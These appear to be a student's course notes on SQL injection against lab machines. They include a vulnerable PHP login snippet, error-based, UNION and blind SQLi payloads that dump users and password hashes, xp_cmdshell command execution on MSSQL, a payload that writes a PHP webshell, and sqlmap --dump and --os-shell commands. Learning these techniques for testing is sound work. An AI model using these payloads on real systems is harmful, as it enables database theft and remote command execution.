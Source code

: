 SQL theory

relational data base

syntax commands and function vary based on relational data base
MySQL, Microsft SQL server, PostgreSQL and Oracle

MySQL query to parse users table and retieeve a specific user entry

SELECT * FROM users WHERE user_name='leon'
SELECT statement to instruct db to retrieve all (*) from  the users db where the field user_name is leon

to automate finctions web app embed SQL queries within source code

example backend PHP:\
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>

above code lacks sanitisation, SQL injection

DB types and characteristics

MySQL is the most deplyed DB variants with MariaDB

mysql command we can connect to the remote sql instance with root as password and username

mysql -u root -p'root' -h 192.168.50.16 -P 3306

default port of MySQL is 3306

select version(); for version of SQL

select system_user(); whoami for SQL

ctrl L clearing output clear

show databases; shows all databases in the session

SELECT user, authentication_string FROM mysql.user WHERE user = 'offsec';
grabing the password of the user is offsec



MSSQL: db management system that intergated into windows

bultin command line tool of SQLCMD 
kali linux has impacket a python framwork what supports Tabular Data Stream a protocol adopted by MSSQL

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
this can be run from kali to minic a windows client connecting to the SQL instance 

SELECT @@version; instead of just version();

SELECT name FROM sys.databases; instead of show databases;

master, tempdb, model, msdb are default databases

SELECT * FROM offsec.information_schema.tables; to select the custom database

select * from offsec.dbo.users; showing all uses cat /etc/passwd


Manual SQL Exploitation

vulnerability analysis of the previous PHP code

both uname and password parameters come from the user-supplied input, we can control thr $sql_query var and craft a different SQL query

Error based: 
offsec' OR 1=1 -- //
forcing the closing quote on the uname valie and adding OR 1=1 and a -- comment separator and // we can permaturely terminate the statement

we poisoned the statement with a true variable 1=1 and a OR statement, so no need to pass password, 

insert inside the username field instead of password

' is very important as it tests if the termination statement gets passed to the SQL backend


' or 1=1 in (select @@version) -- //
version enum injection
in operator to compare a boolean value 1=1 with a numeric value of the db version, the returned error would be the version

OR 1=1 in (SELECT * FROM users) -- // 
this dumps all the data in users table

' or 1=1 in (SELECT password FROM users) -- //
this dumps the password collum from users table

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
grabs the hash of the admin user


UNION based payloads

UNION keyword aids exploitation: enables execution of an extra SELECT statement

finding out the exact number of columns present in the target table
' ORDER BY 1-- //
the above command orders the results by a specific collumn, it will fail when the selected column doesn't exists, increasing the column value by one each time to use

%gives all data, % is a wildcard for LIKE

%' UNION SELECT 'a1', 'a2', 'a3' ... --//
this command injects a1, a2, a3 ect to the displayed table to id fields

%' UNION SELECT database(), user(), @@version, null, null -- //
this enums the user, mysql version and database name

' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
retriving the columns table from the information_schema db, storing the output in the 2 3 4 columns so that the 1st column's int only restriction doesn't affect data

UNION only works if the command's columns matches the db's column number, fill with null

Blind SQL injections

db responses are never returned, and behavior is inferred

so we can either infere data from app's actions based on a boolean value or time based true false

using URL embed:
http://192.168.50.16/blindsqli.php?user=offsec' AND 1=1 -- //
we test boolean based SQLi



http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- //
time based 


Manual and automated code excution

manual code execution

Microsft SQL server, xp_cmdshell, takes string and passes it to a comman shell

must be called with EXECUTE

impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
logging in

EXECUTE sp_configure 'show advanced options', 1;
enable advanced options by setting it to 1

RECONFIGURE;
applying the changes to the running config 

EXECUTE sp_configure 'xp_cmdshell', 1;
enable xp_cmdshell

RECONFIGURE;
apply to running config

with the above features enabled we exe any windows shell command
EXECUTE xp_cmdshell 'whomai'

with full control we can just upgrade this to a normal reverse shell


MYSQL

we abuse SELECT INTO_OUTFILE to weite files on the web server


' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
using the union select to include php shell into the first column and save it as webshell.php

we can access the webshell via webshell.php?cmd=<command>


Automating the attack

SQL injection process we followed can be automated with things like sqlmap 

sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user
-u <url to scan> -p parameter to test

sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
dumping the entire data base we use --dump

--os-shell full interactive shell (don't be dumb, don't do this when time based SQLI)

interceppt POST request via BURP and save it as local text file

sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
-r parameter pushes the POST request as argument
we also need to indicaate which parameter is vulnerable to sqlmap -p 


